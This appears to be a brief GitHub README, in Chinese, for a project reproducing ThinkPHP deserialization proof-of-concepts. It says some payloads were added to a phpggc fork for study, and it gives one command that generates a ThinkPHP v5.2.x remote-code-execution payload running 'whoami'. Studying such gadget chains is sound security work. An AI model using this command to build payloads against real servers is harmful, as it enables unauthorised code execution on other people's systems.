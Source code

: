 # thinkphp
thinkphp反序列化POC复现

## 为学习phpggc，部分payload添加进phpggc
[phpggc](https://github.com/Dido1960/phpggc "phpggc")
* thinkphp v5.2.x
获取payload
`
./phpggc thinkphp/rce2 system whoami
`

